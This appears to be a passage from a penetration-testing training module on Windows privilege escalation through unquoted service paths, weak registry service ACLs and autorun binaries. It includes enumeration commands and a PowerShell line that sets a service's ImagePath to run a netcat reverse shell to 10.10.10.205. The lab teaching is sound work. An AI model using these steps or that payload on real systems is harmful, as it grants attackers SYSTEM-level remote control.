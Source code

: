 If we can create the following files, we would be able to hijack the service binary and gain command execution in the context of the service, in this case, `NT AUTHORITY\SYSTEM`.

- `C:\Program.exe\`
- `C:\Program Files (x86)\System.exe`

However, creating files in the root of the drive or the program files folder requires administrative privileges. Even if the system had been misconfigured to allow this, the user probably wouldn't be able to restart the service and would be reliant on a system restart to escalate privileges. Although it's not uncommon to find applications with unquoted service paths, it isn't often exploitable.

##### Searching for Unquoted Service Paths

``` batch
C:\htb> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```




#### Permissive Registry ACLs

It is also worth searching for weak service ACLs in the Windows Registry. We can do this using `accesschk`.

##### Checking for Weak Service ACLs in Registry

``` batch
C:\htb> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

##### Abuse Weak Service ACLs in Registry by Changing ImagePath with PowerShell

We can abuse this using the PowerShell cmdlet `Set-ItemProperty` to change the `ImagePath` value, using a command such as:

```powershell
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```
#### Modifiable Registry Autorun Binary

##### Check Startup Programs

We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.

```powershell
PS C:\htb> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

This [post](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries) and [this site](https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2) detail many potential autorun locations on Windows systems.


### Kernel Exploits
